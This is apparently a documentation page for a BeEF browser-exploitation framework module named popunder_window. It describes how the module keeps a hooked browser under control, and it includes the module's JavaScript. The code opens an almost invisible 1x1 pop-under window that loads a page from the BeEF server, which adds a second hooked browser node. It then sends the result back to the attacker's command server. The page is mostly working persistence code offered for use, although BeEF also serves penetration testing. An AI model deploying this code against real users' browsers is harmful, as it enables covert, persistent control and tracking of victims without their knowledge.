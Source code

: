 ## Summary

* **Description**: This module creates a new discrete pop under window with the BeEF hook included. Another browser node will be added to the hooked browser tree.
* **Authors**: ethicalhack3r
* **Browsers**: All (User is notified)
* **Parameters** : No parameters needed
* [Code](https://github.com/beefproject/beef/tree/master/modules/persistence/popunder_window)

## Internal Working

Basic and efficient :

```javascript
    var result = "Pop-under window successfully created!";
    window.open('http://' + beef.net.host + ':' + beef.net.port + '/demos/plain.html','popunder','toolbar=0,location=0,directories=0,status=0,menubar=0,scrollbars=0,resizable=0,width=1,height=1,left='+screen.width+',top='+screen.height+'').blur();
    window.focus();	
    beef.net.send('<%= @command_url %>', <%= @command_id %>, 'result='+result);
```

## Feedback

* It works